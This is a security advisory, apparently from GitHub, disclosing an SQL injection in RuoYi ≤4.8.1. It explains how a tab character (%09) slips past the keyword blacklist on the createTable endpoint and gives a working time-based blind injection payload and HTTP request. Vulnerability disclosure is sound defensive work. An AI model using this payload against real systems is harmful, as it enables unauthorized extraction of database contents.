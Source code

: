 # Ruoyi 4.8.1 sqli injection
Ruoyi is an open-source project on GitHub with 6.8k stars. This vulnerability bypasses the blacklist in the code, leading to an SQL injection vulnerability.
## Version & Reference
ruoyi ≤4.8.1

https://github.com/yangzongzhuan/RuoYi
## Vulnerable Code
The vulnerability exists in `/com/ruoyi/generator/controller`, and the relevant code is as follows.
```java
@RequiresRoles("admin")
    @Log(title = "创建表", businessType = BusinessType.OTHER)
    @PostMapping("/createTable")
    @ResponseBody
    public AjaxResult create(String sql)
    {
        try
        {
            SqlUtil.filterKeyword(sql);
            List<SQLStatement> sqlStatements = SQLUtils.parseStatements(sql, DbType.mysql);
            List<String> tableNames = new ArrayList<>();
            for (SQLStatement sqlStatement : sqlStatements)
            {
                if (sqlStatement instanceof MySqlCreateTableStatement)
                {
                    MySqlCreateTableStatement createTableStatement = (MySqlCreateTableStatement) sqlStatement;
                    if (genTableService.createTable(createTableStatement.toString()))
                    {
                        String tableName = createTableStatement.getTableName().replaceAll("`", "");
                        tableNames.add(tableName);
                    }
                }
            }
            List<GenTable> tableList = genTableService.selectDbTableListByNames(tableNames.toArray(new String[tableNames.size()]));
            String operName = Convert.toStr(PermissionUtils.getPrincipalProperty("loginName"));
            genTableService.importGenTable(tableList, operName);
            return AjaxResult.success();
        }
        catch (Exception e)
        {
            logger.error(e.getMessage(), e);
            return AjaxResult.error("创建表结构异常");
        }
    }
```
The subsequent processing code of the SQL statement and the mapper code.

![image.png](./img/4.png)

![image.png](./img/5.png)

The blacklist code is located in `/com/ruoyi/common/utils/sql/SqlUtil.java`, and the relevant code is as follows:
```java
 public static String SQL_REGEX = "\u000B|and |extractvalue|updatexml|sleep|exec |insert |select |delete |update |drop |count |chr |mid |master |truncate |char |declare |or |union |like |+|/*|user()";
 public static void filterKeyword(String value)
    {
        if (StringUtils.isEmpty(value))
        {
            return;
        }
        String[] sqlKeywords = StringUtils.split(SQL_REGEX, "\\|");
        for (String sqlKeyword : sqlKeywords)
        {
            if (StringUtils.indexOfIgnoreCase(value, sqlKeyword) > -1)
            {
                throw new UtilException("参数存在SQL注入风险");
            }
        }
    }
```
The blacklist filtering function can be bypassed using `%09`. For example, `select%09` can be used to circumvent the filter.
## Reproduction of Vulnerability
POC：
`sql=create+table+ttg1+as+select%09+*+from+sys_job+where+1=1+union%09+select%09if(length(database())=2,BENCHMARK(90000000,SHA1('Hackitnow')),1),2,3,4,5,6,7,8,9,10,11,12,13;`
```java
POST /tool/gen/createTable HTTP/1.1
Host: 192.168.30.101
Content-Length: 173
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.0.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.30.101
Referer: http://192.168.30.101/tool/gen/createTable
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: JSESSIONID=98e069aa-c8f7-4116-af5a-a4ff7c85016f
Connection: keep-alive

sql=create+table+ttg1+as+select%09+*+from+sys_job+where+1=1+union%09+select%09if(length(database())=2,BENCHMARK(90000000,SHA1('Hackitnow')),1),2,3,4,5,6,7,8,9,10,11,12,13;
```
Here, the `length` function is utilized to deduce the length of the database name. The database name is `ry`, and its length is 2.

When the input is 3, the condition evaluates to false, and the `benchmark` function is not executed.

![image.png](./img/1.png)

When the input is 2, the condition evaluates to true, and a `benchmark` delay injection is executed.

![image.png](./img/2.png)

![image.png](./img/3.png)
